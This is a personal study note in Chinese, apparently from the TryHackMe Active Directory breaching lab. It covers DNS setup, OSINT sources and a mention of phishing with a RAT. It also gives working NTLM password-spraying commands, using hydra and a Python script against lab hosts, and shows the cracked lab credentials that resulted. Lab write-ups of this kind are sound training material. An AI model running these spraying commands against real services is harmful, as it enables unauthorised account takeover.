 		--> sudo systemctl restart NetworkManager
	--> test : 
		--> nslookup thmdc.za.tryhackme.com 
		
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	初始存取權限 : 
		--> DNS :
			=> 將主機名稱解析為 IP
		--> 設定DNS :
			=> systemd-resolve --interface breachad --set-dns 10.200.55.101 --set-domain za.tryhackme.com
		--> 測試DNS是否正常運作：nslookup thmdc.za.tryhackme.com
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> Error : 
		--> 將驗證網路是否處於活動狀態 : ping 10.200.55.101 
			=> 再次啟動網路
		--> DNS伺服器是否處於活動狀態 : nslookup tryhackme.com 10.200.55.101 
			=> 網路重置
		--> DNS配置 : cat /etc/resolv.conf
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> 開源情報 (OSINT) 
		--> 公共論壇 : https://stackoverflow.com/
		--> Github :　https://github.com/
		--> 外部網站： 
			--> https://haveibeenpwned.com/
			--> https://www.dehashed.com/
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> 網路釣魚
		--> 後台安裝遠端存取特洛伊木馬 (RAT)
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	NTLM認證服務
		--> NetNTLM 的基於質詢-回應的方案進行驗證
		--> 也稱為 Windows 驗證或NTLM驗證
		--> 該憑證應僅儲存在網域控制器(DC)
		--> 暴露:
			--> 公開 Outlook Web App (OWA) 登入入口網站的內部託管 Exchange（郵件）伺服器
			--> 遠端桌面協定（RDP ）服務
			--> 與AD整合的公開VPN端點
			--> 面向互聯網並使用 NetNTLM 的 Web 應用程式
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> 暴力登入攻擊
			=> AD 都配置了帳戶鎖定
			=> 密碼噴射攻擊 
				--> 使用一個密碼「Changeme123」所有使用者名稱進行身份驗證
				
			--> hydra :
				=> hydra -I -V -L ./usernames.txt -p 'Changeme123' ntlmauth.za.tryhackme.com http-get '/:A=NTLM:F=401'
				login: gordon.stevens   password: Changeme123                                        
				login: heather.smith   password: Changeme123                                         
				login: hollie.powell   password: Changeme123                                         
				login: georgina.edwards   password: Changeme123  
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~  
			--> python :
				=> python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
				[+] Valid credential pair found! Username: georgina.edwards Password: Changeme123
